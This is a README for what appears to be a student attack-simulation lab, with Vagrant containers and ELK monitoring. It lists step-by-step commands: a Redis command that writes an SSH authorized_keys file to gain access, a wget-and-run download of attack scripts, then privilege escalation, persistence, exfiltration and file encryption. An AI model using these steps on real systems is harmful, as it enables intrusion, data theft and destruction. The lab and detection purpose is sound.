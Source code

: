 # Preparing the Setup (Pre-requisites)

## Change docker-desktop settings (increase RAM and max virtual memory required by ELK)
- Go to %UserProfile%
- Create a file .wslconfig
- Edit to include the following below:

```
# Settings apply across all Linux distros running on WSL 2
[wsl2]
kernelCommandLine = "sysctl.vm.max_map_count=262144"
# Limits VM memory to use no more than 5 GB, this can be set as whole numbers using GB or MB
memory=5GB
```
References:
- https://mrakelinggar.medium.com/set-up-configs-like-memory-limits-in-docker-for-windows-and-wsl2-80689997309c
- https://stackoverflow.com/questions/69214301/using-docker-desktop-for-windows-how-can-sysctl-parameters-be-configured-to-per
- https://gist.github.com/audionerd/d7d77d9af080a7a87d9b

# Setting up the Attack Environment

1. Bring up all the containers:
```
vagrant up --no-parallel
```
2. Start metricbeat in the ELK container. Open the terminal (docker terminal or external) and enter:
```
service metricbeat start && metricbeat setup -e
```

# Exploit Manual/Steps
1. Reverse shell into the target
```
sudo ssh -i ~/.ssh/id_rsa resch@172.18.0.2

# Accepts the prompt to trust connection
yes
```
Should the connection not work (still asked for password), run the following commands again:
```
printf "keys *\nconfig set dir /home/resch/.ssh\nconfig set dbfilename 'authorized_keys'\nsave\nexit" | redis-cli -h 172.18.0.2

sudo ssh -i ~/.ssh/id_rsa resch@172.18.0.2

yes
```

2. Download all attack scripts which also executes privilege escalation exploiting Crobjob
```
wget https://raw.githubusercontent.com/S692/ossas/main/Gp5_import_scripts_and_PE.sh && chmod +x Gp5_import_scripts_and_PE.sh

# Downloads scripts and run PE exploit
./Gp5_import_scripts_and_PE.sh

# ONLY IF YOU did not successfully become root, execute the following command:
cd /home/resch/.scripts
./Gp5_PEexploitSudo.sh
```
3. Run the attack chain scripts chaining persistence to encryption
```
cd /home/resch/.scripts
./Gp5_attack_chain.sh
```
Alternatively, it can be executed one by one:
```
cd /home/resch/.scripts
./check.sh
pip3 install -r ./requirements.txt
./Gp5_persistence1.sh
./Gp5_file_and_dir_discovery.sh
./Gp5_collectiontarget.sh
./Gp5_exfiltration_target.sh
python3 Gp5_encrypt.py fndd-stripped.txt
```
4. After exfiltration, the encrypted exfiltrated files can be decrypted on the attacker's machine
```
cd ~

./Gp5_after_exfiltration_attk.sh

cd /home/vagrant/exfiltrated/exfiltrate_backups_decrypted

ls -la
```
# Information on the project files
### Attack Scripts/Files
- Gp5_PEexploitCron.sh
  - Privilege excalation via cronjob wildcard injection
- Gp5_PEexploitSudo.sh
  - Privilege escalaion via Sudo heap overflow vulnerability
- Gp5_persistence1.sh && Gp5_persistence2.sh
  - Persistence to enable other scripts to run on startup
- Gp5_file_and_dir_discovery.sh && Gp5_file_and_dir_discovery-stripped.sh
  - List directories and files of potential interest
- Gp5_collectiontarget.sh
  - Crontab with RSYNC to automatically add files into exfiltration destination folder
- Gp5_exfiltration_attk.sh
  - Setup collection point for the files that will be exfiltrated later on
- Gp5_exfiltration_target.sh
  - Encrypt and exfiltrate files out using SCP via SSH to the target machine
- Gp5_after_exfiltration_attk.sh
  - Used to decrypt exfiltrated files
- Gp5_encrypt.py
  - Used to encrypt and delete files listed from file and directories discovery
- check.sh
  - Check for dependencies for Gp5_encrpy.py to execute successfully
- requirements.txt
  - List of dependencies needed for encryption and deletion (impact)
- Gp5_import_scripts_and_PE.sh
  - Script to import the scripts above into the target machine for execution
  - Runs Gp5_PEexploitCron.sh once all files have been downloaded
---
### Container Setup Files
- Gp5_setup.sh
  - Used to setup and download all the dependencies and files needed for the simulation attack to work on the target machine.
- Gp5_attk_setup.sh
  - Used to setup and download all the dependencies/files needed on the attacker's machine, to successfully exploit the target.
---
### Logs and Monitoring Tools (Beats) Setup files
- auditbeat.yml
  - Preconfigured auditbeat configuration file that will be replaced with the one in the target system.
- filebeatConf.py
  - Replaces keywords in the filebeats configuration file
- redis.yml
  - Redis module configuration file that exists in filebeats
- system.yml
  - System module configuration file that exisits in filebeats
- metricbeat.yml
  - Main configuration file of metricbeat taht will be replaced with the one in the installed system.
- kibana.yml
